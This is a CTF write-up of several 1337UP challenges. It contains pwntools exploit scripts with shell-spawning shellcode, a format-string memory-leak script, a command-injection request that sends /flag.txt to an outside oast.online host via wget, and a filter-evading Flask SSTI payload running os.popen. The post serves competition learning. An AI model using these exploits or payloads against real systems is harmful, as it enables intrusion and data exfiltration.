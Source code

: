 ```yaml
---
title: CTF Writeup - 1337UP CTF by Intigriti
author: istify
date: 2022-03-15
category: CTF
layout: post
---
```


# 1337UP CTF Writeup 
This CTF was hosted by [Intigriti](https://www.intigriti.com/) before a live conference.

## Easy Register

This challenge was a basic stack buffer overflow with a stack leak. We used the leak to overwrite saved rip with the address of our shellcode.

```
#!/usr/bin/env python
# coding: utf-8
import sys
import time

def main(args):
    p = None

    # toggle to remote with ./pwn.py remote
    if len(args) == 2 and args[1] == "remote":
        p = remote("remote-server-url", 1234)
    else:
        p = process("./easy_register")

    # Try
    # p.recvlines(1), p.recv(10), p.readline()
    test = p.recvlines(7)
    overall_length = 88
    shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
    leak = p64(int(test[-1].split(b"listing at ")[1].split(b".")[0], 16), endian="little")
    exploit = b"\x90" * (overall_length - len(shellcode) -20) + shellcode + b"\x90" * 20 + leak
    print(len(exploit))
    p.recvuntil(b"Hacker name >")
    p.sendline(exploit)
    # p.write('data'), p.write('data with newline')
    p.interactive()
    # Note that if your program never ends, you will never see any output
    print(p.recvall())
    sys.exit(0)

if __name__ == "__main__":
        main(sys.argv)
```

## Search Engine Redacted

This was a pwn challenge. There was a format string vulnerability in the search function, when the search term was not found. Our solution here is not really clean. We used a short python script to generate format strings, which read bytes from memory at a certain offset. We then pasted them into the search and found the flag in memory.

```
from os import *

for i in range(0,100,2):
    test = ""
    for j in range(2):
         test += "%" + str(i+j) + "$016lx"
         #test += "%" + str(i+j) + "$c"
    print("input:" + test)
    system("echo '" + test + "'| ./search_engine_redacted")
```

`1337UP{Th3s3_f0rm4ts_ar3_wh4ck!}`

## Cake
This was a pwn challenge. The executable has no protections enabled. We control the least significant byte of the `saved rbp` pointer in the `eat` function. The buffer, that we overwrite for this is 256 bytes long. Byte 257 overwrites the least significant byte of `saved rbp`. In our exploit we overwrite thies byte to decrease the value of `saved rbp`. This allows us to control the `saved rip`, when the next function (`menu`) returns. At this point we use a `jmp rsp` gadget to jump to a relative jump, which then takes us to the beginning of our shellcode, which we place at the beginning of our buffer.

```
#!/usr/bin/env python
# coding: utf-8
import sys
import time

def main(args):
    p = None

    # toggle to remote with ./pwn.py remote
    if len(args) == 2 and args[1] == "remote":
        p = remote("cake.ctf.intigriti.io", 9999)
    else:
        p = process("./cake")
        #p = gdb.debug("./cake", gdbscript='break eat')

    
    binary = ELF('./cake')

    # Choose right path, to get to the vulnerable read call
    p.recvuntil(b">")
    p.sendline(b"1")
    
    # Shellcode for dropping a shell
    shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
    
    # jmp rsp gadget
    jmp_gadget = 0x0000000000400dbb
    
    exploit = b"\x90" * (32 - len(shellcode)) + shellcode
    # Generate jmp rsp + relative jmp with the right offset
    for i in range(32,256,16):
        print( "jmp $-0x"+ '{:02X}'.format(i +8))
        relative_jmp = asm("jmp $-0x"+ '{:02X}'.format(i +8))
        exploit += p64(jmp_gadget) + relative_jmp + b"\x90" * (8-len(relative_jmp)) 
    # Overwriting the least significant byte.
    exploit += b"\x08"
    print("[+] exploit:")
    print(exploit)

    print(len(exploit))
    # Receive until read call and send of manipulated buffer
    p.recvuntil(b"How many bites would you like? (1, 2, or 3):")
    p.send(exploit)
    
    # Hopefully drop shell here
    p.interactive()
    
    # Note that if your program never ends, you will never see any output
    print(p.recvall())
    sys.exit(0)

if __name__ == "__main__":
        main(sys.argv)
```

`1337UP{Wow_that_was_Quite_the_journey!}`

## Traveler

There was only one point in the application, that provided some interaction. So we played around with it and got an error:
```
<center>An error occurred whilst executing: bash check.sh Couple$(whoami)</center>
```

Seemed like command injection, but I got no output. So we started an `interactsh-client`:
```
~/go/bin/interactsh-client -v -o interactsh-logs.txt
```

We then with some trial an error crafted this request, which uses `wget` to post command output to the server. I found the flag in the root directory and leaked it this way:
```
POST /package-details.php HTTP/2
Host: traveller.ctf.intigriti.io
[...]

pack=Couple$(wget+http%3a//$(echo+test2).c8m9dmgkek6ds5otf660cesjpzyyyyyyn.oast.online/lsout+--post-data+"$(cat+/flag.txt)")&submit=Submit
```

On the `interactsh-client` we got:
```
------------
HTTP Request
------------
`
POST /lsout HTTP/1.1
Host: test2.c8m9dmgkek6ds5otf660cesjpzyyyyyyn.oast.online
Accept: */*
Accept-Encoding: identity
Connection: Keep-Alive
Content-Length: 24
Content-Type: application/x-www-form-urlencoded
User-Agent: Wget/1.20.3 (linux-gnu)

1337UP{C0MM4nd_Inj3ti0n}
```


## DeadTube

This is basically just one endpoint, that is obviously issuing requests, which means SSRF. We had source code access, that told us that the flag is given when issuing a request to `/flag` from localhost. 

To solve it we used an URL Shortener to redirect the connection to `https://127.0.01:8080/flag`.

`1337UP{SSRF_AINT_GOT_NOTHING_ON_M3}`


## Quiz

Quiz, that allows us to earn points and gives a flag if we reach a 100 points (which is not possible). This is a simple race condition. We sent the request triggering a point increase to `turbo intruder` and used the `race.py` script to issue it 30 times. We were then able to buy the flag:

`1337UP{this_is_a_secret_flag}`

## 1Truth2Lies
This basically allows Flask SSTI on one endpoint, while the other two are not vulnerable. We need to URL encode the path, as it is quite strange. For this we used `cyberchef`. Then there is a basic filter, but one of the payloads from `PayloadAllTheThings` was not filtered. 

We issued the following request to retrieve the flag:
```
GET /%0A%20%E2%96%84%E2%96%88%20%20%20%20%E2%96%84%E2%96%84%E2%96%84%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%84%E2%96%84%E2%96%84%E2%96%84%20%20%20%20%20%20%20%20%20%E2%96%84%E2%96%88%20%20%20%20%E2%96%88%E2%96%84%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%84%20%20%20%E2%96%84%E2%96%88%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%E2%96%84%E2%96%84%E2%96%84%E2%96%84%20%20%20%20%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%20%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%84%20%20%20%E2%96%84%E2%96%88%20%20%20%20%20%20%20%20%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%20%0A%E2%96%88%E2%96%88%E2%96%88%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%80%E2%96%80%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%80%E2%96%80%E2%96%80%E2%96%88%E2%96%88%E2%96%84%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%E2%96%80%E2%96%80%E2%96%80%E2%96%88%E2%96%88%E2%96%84%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%0A%E2%96%88%E2%96%88%E2%96%88%E2%96%8C%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%80%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%80%20%20%0A%E2%96%88%E2%96%88%E2%96%88%E2%96%8C%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%84%E2%96%84%E2%96%84%20%20%20%20%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%84%E2%96%84%E2%96%84%E2%96%84%E2%96%88%E2%96%88%E2%96%80%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%84%E2%96%84%E2%96%84%E2%96%88%E2%96%88%E2%96%80%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%84%E2%96%84%E2%96%84%20%20%20%20%20%0A%E2%96%88%E2%96%88%E2%96%88%E2%96%8C%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%80%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%80%E2%96%80%E2%96%80%20%20%20%20%20%E2%96%80%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%80%E2%96%80%E2%96%80%E2%96%80%E2%96%80%20%20%20%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%20%E2%96%80%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%80%E2%96%80%E2%96%80%E2%96%88%E2%96%88%E2%96%84%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%E2%96%80%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%80%E2%96%80%E2%96%80%20%20%20%20%20%0A%E2%96%88%E2%96%88%E2%96%88%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%84%20%20%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%84%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%84%20%20%0A%E2%96%88%E2%96%88%E2%96%88%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%E2%96%8C%20%20%20%20%E2%96%84%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%E2%96%88%E2%96%88%E2%96%88%E2%96%8C%20%20%20%20%E2%96%84%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%0A%E2%96%88%E2%96%80%20%20%20%20%E2%96%80%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%80%20%20%20%20%20%20%20%20%E2%96%80%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%80%20%20%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%80%20%20%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%84%E2%96%84%E2%96%88%E2%96%88%20%20%E2%96%80%E2%96%88%20%20%20%E2%96%88%E2%96%80%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%80%20%20%E2%96%84%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%80%20%20%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%84%E2%96%84%E2%96%88%E2%96%88%20%20%20%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%20%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%E2%96%80%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%E2%96%88%E2%96%88%E2%96%88%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%E2%96%80?input={{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat+flag*')|attr('read')()}} HTTP/2
[...]
```

In the response we got the flag:
```
HTTP/2 200 OK
Date: Sat, 12 Mar 2022 14:55:10 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 67
Set-Cookie: INGRESSCOOKIE=1647096911.236.13402.145793|dc1d9196c6bf1d67eb64d1980e38e24f; Path=/; Secure; HttpOnly

Your input: flag{1ea5n_h0w_vu1n_h1ppen_and_wh1t_l1ne_m1ke_vu1n!!!}
```



